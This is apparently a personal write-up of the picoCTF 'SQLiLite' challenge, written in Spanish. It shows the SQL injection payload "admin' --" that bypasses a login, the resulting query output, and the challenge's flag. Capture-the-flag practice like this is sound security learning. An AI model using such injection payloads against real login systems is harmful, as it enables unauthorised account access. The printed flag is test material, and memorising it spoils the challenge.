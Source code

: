
---
### Descripción:
Can you login to this website?
Additional details will be available after launching your challenge instance.

---
Try to login [here](http://saturn.picoctf.net:65198/).

### Pistas: 
```
1.- `admin` is the user you want to login as.
```

### Solución:
- **Tenemos como pagina principal un log in, como el nombre del reto es SQLiLite, investigamos mas sobre inyecciones SQL, y encontramos: "admin' --", así tomara en cuenta solamente el username, mientas que la contraseña no se tomara en cuenta debido al '--', ya que lo toma como un comentario.**
![[Pasted image 20250405170959.png]]
- **Después de ingresar nos sale un mensaje sobre que logramos entrar, pero que no podemos ver la bandera, lo que significa que tenemos que leer el código fuente.**
![[Pasted image 20250405170802.png]]
- **Teniendo como resultado final:**
```bash
<pre>username: admin&#039; -- 
password: 
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; --&#039; AND password=&#039;&#039; 
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
### Bandera:
```
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
```
